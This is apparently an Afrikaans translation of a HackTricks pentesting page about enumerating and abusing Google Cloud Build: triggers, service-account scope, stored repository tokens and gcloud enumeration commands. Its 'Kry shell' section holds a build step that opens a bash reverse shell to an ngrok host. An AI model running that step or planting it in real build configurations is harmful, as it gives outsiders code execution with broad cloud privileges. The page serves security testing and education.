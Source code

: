 # GCP - Cloud Build Enum

{{#include ../../../banners/hacktricks-training.md}}

## Basiese Inligting

Google Cloud Build is 'n bestuurde CI/CD-platform wat **outomatiseer sagteware bou** en vrystelling proses, wat integreer met **bron kode repositories** en 'n wye verskeidenheid programmering tale ondersteun. Dit **laat ontwikkelaars toe om kode outomaties te bou, te toets en te ontplooi** terwyl dit buigsaamheid bied om bou stappe en werkvloei aan te pas.

Elke Cloud Build Trigger is **verwant aan 'n Cloud Repository of direk gekoppel aan 'n eksterne repository** (Github, Bitbucket en Gitlab).

> [!TIP]
> Ek kon nie enige manier sien om die Github/Bitbucket token hier of van Cloud Repositories te steel nie, want wanneer die repo afgelaai word, word dit via 'n [https://source.cloud.google.com/](https://source.cloud.google.com/) URL toegang verkry en Github word nie deur die kliënt aangespreek nie.

### Gebeure

Die Cloud Build kan geaktiveer word as:

- **Push na 'n tak**: Spesifiseer die tak
- **Push 'n nuwe etiket**: Spesifiseer die etiket
- P**ull versoek**: Spesifiseer die tak wat die PR ontvang
- **Handmatige Aanroep**
- **Pub/Sub boodskap:** Spesifiseer die onderwerp
- **Webhook gebeurtenis**: Sal 'n HTTPS URL blootstel en die versoek moet met 'n geheim geverifieer word

### Uitvoering

Daar is 3 opsies:

- 'n yaml/json **wat die opdragte** spesifiseer om uit te voer. Gewoonlik: `/cloudbuild.yaml`
- Slegs een wat “inline” in die webkonsol en in die cli gespesifiseer kan word
- Meest algemene opsie
- Relevant vir ongeverifieerde toegang
- 'n **Dockerfile** om te bou
- 'n **Buildpack** om te bou

### SA Toestemmings

Die **Diensrekening het die `cloud-platform` omvang**, so dit kan **alle voorregte gebruik.** As **geen SA gespesifiseer is** (soos wanneer jy indien) sal die **standaard SA** `<proj-number>@cloudbuild.gserviceaccount.com` **gebruik word.**

Standaard word geen toestemmings gegee nie, maar dit is redelik maklik om dit te gee:

<figure><img src="../../../images/image (16).png" alt=""><figcaption></figcaption></figure>

### Goedkeuringe

Dit is moontlik om 'n Cloud Build te konfigureer om **goedkeuringe vir bou uitvoerings te vereis** (standaard gedeaktiveer).

### PR Goedkeuringe

Wanneer die trigger 'n PR is omdat **enige iemand PRs na openbare repositories kan uitvoer**, sou dit baie gevaarlik wees om net **die uitvoering van die trigger met enige PR toe te laat**. Daarom sal die uitvoering standaard slegs **outomaties wees vir eienaars en medewerkers**, en om die trigger met ander gebruikers se PRs uit te voer, moet 'n eienaar of medewerker kommentaar lewer `/gcbrun`.

<figure><img src="../../../images/image (339).png" alt="" width="563"><figcaption></figcaption></figure>

### Verbindinge & Repositories

Verbindinge kan geskep word oor:

- **GitHub:** Dit sal 'n OAuth prompt wys wat vra vir toestemmings om **'n Github token te kry** wat binne die **Secret Manager** gestoor sal word.
- **GitHub Enterprise:** Dit sal vra om 'n **GithubApp** te installeer. 'n **authentikasie token** van jou GitHub Enterprise gasheer sal geskep en in hierdie projek as 'n **Secret Manager** geheim gestoor word.
- **GitLab / Enterprise:** Jy moet die **API toegang token en die Lees API toegang token** verskaf wat in die **Secret Manager** gestoor sal word.

Sodra 'n verbinding gegenereer is, kan jy dit gebruik om **repositories te koppel waartoe die Github rekening toegang het**.

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../images/image (17).png" alt=""><figcaption></figcaption></figure>

> [!TIP]
> Let daarop dat repositories wat met hierdie metode gekoppel is, **slegs beskikbaar is in Triggers wat 2de generasie gebruik.**

### Koppel 'n Repository

Dit is nie dieselfde as 'n **`verbinding`** nie. Dit laat **verskillende** maniere toe om **toegang tot 'n Github of Bitbucket** repository te kry, maar **genereer nie 'n verbindingsobjek nie, maar dit genereer 'n repository objek (van 1ste generasie).**

Hierdie opsie is beskikbaar deur die knoppie:

<figure><img src="../../../images/image (18).png" alt=""><figcaption></figcaption></figure>

### Berging

Soms sal Cloud Build **'n nuwe berging genereer om die lêers vir die trigger te stoor**. Dit gebeur byvoorbeeld in die voorbeeld wat GCP bied met:
```bash
git clone https://github.com/GoogleCloudBuild/cloud-console-sample-build && \
cd cloud-console-sample-build && \
gcloud builds submit --config cloudbuild.yaml --region=global
```
'n Stoor emmer genaamd [security-devbox_cloudbuild](https://console.cloud.google.com/storage/browser/security-devbox_cloudbuild;tab=objects?forceOnBucketsSortingFiltering=false&project=security-devbox) word geskep om 'n `.tgz` met die lêers wat gebruik gaan word, te stoor.

### Kry shell
```yaml
steps:
- name: bash
script: |
#!/usr/bin/env bash
bash -i >& /dev/tcp/5.tcp.eu.ngrok.io/12395 0>&1
options:
logging: CLOUD_LOGGING_ONLY
```
Installeer gcloud binne cloud build:
```bash
# https://stackoverflow.com/questions/28372328/how-to-install-the-google-cloud-sdk-in-a-docker-image
curl https://dl.google.com/dl/cloudsdk/release/google-cloud-sdk.tar.gz > /tmp/google-cloud-sdk.tar.gz
mkdir -p /usr/local/gcloud
tar -C /usr/local/gcloud -xvf /tmp/google-cloud-sdk.tar.gz
/usr/local/gcloud/google-cloud-sdk/install.sh
```
### Enumerasie

Jy kan **sensitiewe inligting in boukonfigurasies en logs** vind.
```bash
# Get configured triggers configurations
gcloud builds triggers list # Check for the words github and bitbucket
gcloud builds triggers describe <trigger-name>

# Get build executions
gcloud builds list
gcloud builds describe <build-uuid> # Get even the build yaml if defined in there
gcloud builds log <build-uuid> # Get build logs

# List all connections of each region
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build connections in region: $region"
connections=("${(@f)$(gcloud builds connections list --region="$region" --format='value(name)')}")
if [[ ${#connections[@]} -eq 0 ]]; then
echo "No connections found in region $region."
else
for connection in $connections; do
echo "Describing connection $connection in region $region"
gcloud builds connections describe "$connection" --region="$region"
echo "-----------------------------------------"
done
fi
echo "========================================="
done

# List all worker-pools
regions=("${(@f)$(gcloud compute regions list --format='value(name)')}")
for region in $regions; do
echo "Listing build worker-pools in region: $region"
gcloud builds worker-pools list --region="$region"
echo "-----------------------------------------"
done
```
### Privilege Escalation

{{#ref}}
../gcp-privilege-escalation/gcp-cloudbuild-privesc.md
{{#endref}}

### Unauthenticated Access

{{#ref}}
../gcp-unauthenticated-enum-and-access/gcp-cloud-build-unauthenticated-enum.md
{{#endref}}

### Post Exploitation

{{#ref}}
../gcp-post-exploitation/gcp-cloud-build-post-exploitation.md
{{#endref}}

{{#include ../../../banners/hacktricks-training.md}}

